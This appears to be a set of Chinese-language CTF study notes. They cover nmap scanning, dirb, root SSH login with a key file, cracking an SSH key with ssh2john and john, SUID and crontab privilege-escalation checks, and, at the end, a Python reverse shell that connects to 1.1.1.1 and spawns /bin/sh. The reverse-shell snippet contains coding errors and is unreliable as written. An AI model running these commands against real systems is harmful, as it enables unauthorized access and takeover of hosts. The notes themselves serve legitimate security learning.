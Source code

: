 # CTF 工具学习笔记

* nmap 探测工具

常用命令：

```bash
nmap -sV 192.168.6.0/24
```

表示扫描192.168.6.0.子网下所有机器的开放端口。

* dirb 查看站点隐藏文件

常用命令：

```bash
dirb http://192.168.7.6/
```

* ssh 远程连接

常用命令：

```bash
ssh -i id_rsa root@192.168.7.6
```

表示使用私钥文件id_rsa、用户名root登录远程主机192.168.7.6

其中 id_rsa 文件需要可读可写权限：

```bash
chmod 600 id_rsa
```

* ssh2john 转换ssh私钥为john可识别的信息。

常用命令：

```bash
ssh2john id_rsa > isacrack
```

* john 解密 isacrack 信息

john工具用于解密isacrack文件对应的信息。

命令：

```bash
zcat /usr/share/wordlists/rockyou.txt.gz | john --pipe --rules isacrack
```

* find 查看具有执行权限的文件

```bash
find / -perm -4000 2>/dev/null
```

从根目录查找具有可执行权限的文件，标准错误重定向到/dev/null

**要多注意 /root 目录下的文件。**

* 查看/etc/crontab，查找定时任务

查看其中不是root写权限的脚本或者指定的目录不存在，修改内容，执行

* 查看/etc/passwd，查看所有用户

* 查看 /etc/group，查看所有用户组

* 查看 /tmp 目录，没准有有用信息

* 反弹 shell
  在攻击机使用netcat开启一个tcp服务器，在靶机使用一个tcp socket连接上攻击机，然后将输入输出全都重定向到这个socket，然后启动一个shell子进程。

  代码大致如下：

```python
import os, subprocess, socket

s = socket.socket(socket.AF_INET, sock.SOCK_STREAM)
s.connect(("1.1.1.1", 1234))
os.dup2(s.fileno(), 0)
os.dup2(s.fileno(), 1)
os.dup2(s.fileno(), 2)
p=subprocess(["/bin/sh", "-l"])
```

